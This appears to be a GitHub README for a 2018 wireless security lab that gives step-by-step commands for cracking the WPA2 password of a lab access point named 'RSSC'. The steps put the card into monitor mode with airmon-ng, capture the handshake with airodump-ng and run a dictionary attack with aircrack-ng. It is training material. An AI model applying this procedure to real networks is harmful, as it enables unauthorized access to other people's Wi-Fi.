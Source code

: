 # RSSC2018-Wireless-Lab

## Execution
Here we will walk through the process of cracking a WPA2 password.

1. The iwconfig command will show any wireless cards in the system. 
```bash
iwconfig
```
The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

Next, we need to change the wireless card to monitoring mode. We do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
We can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. The attacker will have to catch someone in the act of authenticating to get a valid capture. Airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the screen. Run this command for 15 seconds and then break out of it using ‘ctrl + C’.
```bash
airodump-ng wlan0mon –bssid <mac-address> --channel <channel> –write <filename>
```

8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng <filename>.cap -a 2 -w <dictionary path>
```

